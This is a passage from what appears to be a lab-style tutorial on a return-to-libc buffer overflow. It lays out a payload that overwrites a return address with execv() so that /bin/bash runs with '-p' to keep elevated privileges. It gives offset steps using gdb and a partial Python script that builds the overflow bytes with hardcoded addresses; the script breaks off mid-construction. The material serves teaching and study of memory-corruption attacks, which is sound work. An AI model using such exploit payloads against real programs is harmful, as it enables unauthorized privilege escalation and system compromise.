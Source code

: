 ##### 2.1 Layout of the Payload
The payload will look like this:
```
[ Padding ] [ execv() address ] [ Return address (dummy) ] [ pathname ] [ argv[] ]
[ argv[0] ] [ argv[1] ] [ argv[2] ]
```

##### 2.2 Calculate Offsets
Use `gdb` to determine the offset to the return address. For example, if the return address is at offset `112`, the payload will start with `112` bytes of padding.

##### 2.3 Construct the Argument Array
The `argv[]` array must be constructed on the stack:
- `argv[0]`: Address of `/bin/bash` (`0xf7f52a0b`).
- `argv[1]`: Address of `-p` (`0xf7f52b0c`).
- `argv[2]`: `NULL` (4 bytes of zero).

Assume the `argv[]` array is placed at `0xffffd0c0` (just after the padding).

---

#### Step 3: Write the Exploit Code

Here is the Python script to generate the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
execv_addr = 0xf7e0f060       # Address of execv()
bin_bash_addr = 0xf7f52a0b    # Address of "/bin/bash"
dash_p_addr = 0xf7f52b0c      # Address of "-p"
argv_addr = 0xffffd0c0        # Address of argv[] on the stack

# Offsets
padding_offset = 112          # Offset to the return address
return_addr_offset = padding_offset + 4
pathname_offset = return_addr_offset + 4
argv_offset = pathname_offset + 4

# Construct the payload
# Padding
content[:padding_offset] = b"A" * padding_offset

# Overwrite return address with execv() address
content[padding_offset:padding_offset+4] = (execv_addr).to_bytes(4, byteorder='little')

# Dummy return address (not used, but required for stack alignment)
content[return_addr_offset:return_addr_offset+4] = b"BBBB"

# Argument 1: pathname (address of "/bin/bash")
content[pathname_offset:pathname_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# Argument 2: argv[] (address of the argument array)
content[argv_offset:argv_offset+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct argv[] on the stack
argv0_offset = argv_addr - 0xffffd0a0
argv1_offset = argv0_offset + 4
argv2_offset = argv1_offset + 4

# argv[0]: Address of "/bin/bash"
```